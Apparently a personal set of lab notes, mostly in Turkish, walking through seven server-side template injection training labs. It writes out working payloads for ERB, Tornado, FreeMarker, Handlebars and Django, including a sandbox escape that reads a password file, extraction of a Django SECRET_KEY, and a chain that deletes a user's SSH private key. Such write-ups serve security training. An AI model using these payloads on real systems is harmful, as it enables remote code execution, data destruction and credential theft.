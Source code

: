 #### 1.Lab: Basic server-side template injection

- Sayfada bir itemden kalmadığında URL de mesaj özelliği çalışıyor
- Mesaj özelliği bir input alabiliyor
- URL'de linux komutları girerek işemler gerçekleştirebiliyoruz
- önce hatalı bir ifade girdirerek yanlış ruby bir sistem olduğunu görüyoruz
- ardından `<%= system('ls') %>` ile dosyaları taratıyoruz
- `<%= system('rm morale.txt') %>` ile de istenen dosyayı siliyoruz

#### 2.Lab: Basic server-side template injection (code context)

Labda tornado syntax kullanarak morale.txt dosyasının silinmesi gerektiği söylenmiş lakin denediğim payload payloadsallthethings payload'larına hiç benzemiyor.

- Yapılması gereken en önemli şey doğru syntax bulmak
- Önce bize verilen credentials ile giriş yapıyoruz
- Hesap sayfasında preferred name özelliğinde bir seçenek ile istek yolluyoruz
- Burp te bu isteği repeater'a yolluyoruz
- Syntax ları burada deneyeceğiz
- Valid Tornado SSSTI syntax : `''; import os; os.system('rm morale.txt')`
- Bu isteği attıktan sonra blogdaki postlardan birine yorum atıyoruz
- Postun olduğu blog sayfasını tekrar istediğimizde preferred name değerimiz çağırılacak
- çalıştırılacak bu nedenle de morale.txt silinmiş olacak.

#### 3.Lab: Server-side template injection using documentation

- Labda verilen credentials ile giriş yapıyoruz, bu bize product templatelarını editleme imkanı sağlıyor
- bir postun edit kısmına girdiğimizde ${product.price} gibi bir ifade görüyoruz bu bize template syntax'ının java tabanlı olabileceğini işaret ediyor
- Test için bir ifade deniyoruz: `${T(java.lang.Runtime).getRuntime().exec('ls')}`
- bu bize bir hata dönecek, hatada da freemaker eksik olduğunu söyleyecek syntax da
- bundan dolayı da template freemaker kullandığını anlayacağız
-  `${"freemarker.template.utility.Execute"?new()("rm morale.txt")}` yazarak labı çözüyoruz


#### 4.Lab: Server-side template injection in an unknown language with a documented exploit

- Labda handlebars kullanılıyor
- Yanlış syntax yazınca hata dönmemesi bunu gösteriyor
```
{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```
- yukarıdaki fadeyi URL encode ediyoruz:
```
%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0A%20%20%7B%7B%23with%20%22e%22%7D%7D%0A%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0A%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%7B%7Bthis.push%20%28lookup%20string.sub%20%22constructor%22%29%7D%7D%0A%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%7B%7B%23with%20string.split%20as%20%7Ccodelist%7C%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7Bthis.push%20%22return%20require%28%27child_process%27%29.exec%28%27rm%20%2Fhome%2Fcarlos%2Fmorale.txt%27%29%3B%22%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string.sub.apply%200%20codelist%29%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0A%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0A%20%20%7B%7B%2Fwith%7D%7D%0A%7B%7B%2Fwith%7D%7D
```
- bu ifadeyi de URL'in sonuna eklediğimizde lab çözülüyor

#### 5.Lab: Server-side template injection with information disclosure via user-supplied objects


Bu labda obje çağrısı yaparak cevap bulmaya çalışıyoruz
- Sitedeki postlarda template değiştirmek istediğimizde `{{product.price}}` şeklinde bir ifade göreceğiz
- Bu ifade bize template hakkında bir fikir verecek, ilk bakışta django, tornado, java, js vb. gibi görünüyor.
- Hatalı bir python ifadesi girdiğimizde hatada template'ın django olduğunu görebiliyoruz.
- PayloadsAllTheThings den baktığımızda `{% debug %}` gibi bir ifade görüyoruz
- Bu bize kullanılan nesneleri dönecek
- Nesnelerin arasında `settings nesnesini görüyoruz`
- Django docs baktığımızda bu nesnenin muhtemel property lerinden birinin de SECRET_KEY olduğunu görüyoruz
- Template'in içine `{{settings.SECRET_KEY}}` yazdığımızda secret key bulacağız 

#### 6.Lab: Server-side template injection in a sandboxed environment

PayloadsAllTheThings den freemaker için bir payload buldum

```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
Convert the returned bytes to ASCII
```

#### 7.Lab: Server-side template injection with a custom exploit


The objective is to delete the file: /.ssh/id_rsa from the home directory of carlos
- There is an SSTI vulnerability in the preferred name feature
- To exploit this we need to write something the application can process
- We first try to uplaod an invalid file to see if the application's error message reveals anything
- The error message:
```
PHP Fatal error:  Uncaught Exception: Uploaded file mime type is not an image: application/octet-stream in /home/carlos/User.php:28
Stack trace:
#0 /home/carlos/avatar_upload.php(19): User->setAvatar('/tmp/hello.htac...', 'application/oct...')
#1 {main}
  thrown in /home/carlos/User.php on line 28
```
- From this message we obtain 2 key information : the directory for Carlos, that there is a 'User.php' file and that there is a user.setAvater function that sets the user's avatar
- We send a request that sets the preferred name and we intercept it to perform some changes on it
- We set the `blog-post-author-display` to `user.setAvatar('/home/carlos/User.php','image/jpg')` this is the first step in reading the contents of User.php
- Afterwards we go to a post and submit a comment so that our preferred name is called which is user.setAvatar(...) in this case.
- We see that there is a request that calls our avatar when we request the post page
- The content of User.php which is our avatar is as follows:

```PHP
<?php

class User {
    public $username;
    public $name;
    public $first_name;
    public $nickname;
    public $user_dir;

    public function __construct($username, $name, $first_name, $nickname) {
        $this->username = $username;
        $this->name = $name;
        $this->first_name = $first_name;
        $this->nickname = $nickname;
        $this->user_dir = "users/" . $this->username;
        $this->avatarLink = $this->user_dir . "/avatar";

        if (!file_exists($this->user_dir)) {
            if (!mkdir($this->user_dir, 0755, true))
            {
                throw new Exception("Could not mkdir users/" . $this->username);
            }
        }
    }

    public function setAvatar($filename, $mimetype) {
        if (strpos($mimetype, "image/") !== 0) {
            throw new Exception("Uploaded file mime type is not an image: " . $mimetype);
        }

        if (is_link($this->avatarLink)) {
            $this->rm($this->avatarLink);
        }

        if (!symlink($filename, $this->avatarLink)) {
            throw new Exception("Failed to write symlink " . $filename . " -> " . $this->avatarLink);
        }
    }

    public function delete() {
        $file = $this->user_dir . "/disabled";
        if (file_put_contents($file, "") === false) {
            throw new Exception("Could not write to " . $file);
        }
    }

    public function gdprDelete() {
        $this->rm(readlink($this->avatarLink));
        $this->rm($this->avatarLink);
        $this->delete();
    }

    private function rm($filename) {
        if (!unlink($filename)) {
            throw new Exception("Could not delete " . $filename);
        }
    }
}

?>
```

- We notice a `gdprDelete()` function that deletes the user's avatar
- We already know that we can set an arbitrary file in the application as an avatar, we already know how to call a certain function, and we now know that we can delete a user's avatar
- The procedure is to set the `/home/carlos/.ssh/id_rsa` file as an avatar and then delete it with `gdprDelete()`
- We send the request `POST /my-account/change-blog-post-author-display`request and set it's `blog-post-author-display` to `user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpg')`
- Then we request the post page:`GET /post?postId=3 HTTP/2` to run the function 
- Now that the file is set as the avatar, we send the preferred name request name again and set it to execute `user.gdprDelete()`
- We request the post page again and with this request the file now is deleted.